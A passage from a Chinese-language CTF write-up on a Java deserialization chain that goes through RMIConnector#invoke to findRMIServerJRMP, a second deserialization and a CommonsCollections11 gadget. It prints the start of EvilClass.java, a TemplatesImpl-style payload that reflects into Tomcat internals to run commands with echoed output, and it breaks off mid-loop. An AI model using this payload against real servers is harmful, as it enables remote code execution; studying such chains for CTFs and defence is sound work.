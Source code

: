 然后就会一直跟着RMIConnector#invoke 会一直到RMIConnector#findRMIServerJRMP

![image-20210928222849519](img/image-20210928222849519.png)

并且进行一个二次反序列化，就是一个正常的readobject操作。后面就是一个正常的cc11。

然后的话基本上就是写一个执行命令并且有回显。这些自己就没有详细分析因为慢慢来，之前看了一个项目java回显。

evilclass.java

```java
package com.tctffinal.demo.exp2;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class EvilClass extends AbstractTranslet {
    static {
        try {
            java.lang.reflect.Field contextField = org.apache.catalina.core.StandardContext.class.getDeclaredField("context");
            java.lang.reflect.Field serviceField = org.apache.catalina.core.ApplicationContext.class.getDeclaredField("service");
            java.lang.reflect.Field requestField = org.apache.coyote.RequestInfo.class.getDeclaredField("req");
            java.lang.reflect.Method getHandlerMethod = org.apache.coyote.AbstractProtocol.class.getDeclaredMethod("getHandler",null);            contextField.setAccessible(true);
            serviceField.setAccessible(true);
            requestField.setAccessible(true);
            getHandlerMethod.setAccessible(true);
            org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase =
                (org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            org.apache.catalina.core.ApplicationContext applicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(webappClassLoaderBase.getResources().getContext());
            org.apache.catalina.core.StandardService standardService = (org.apache.catalina.core.StandardService) serviceField.get(applicationContext);
            org.apache.catalina.connector.Connector[] connectors = standardService.findConnectors();
            for (int i=0;i<connectors.length;i++) {
```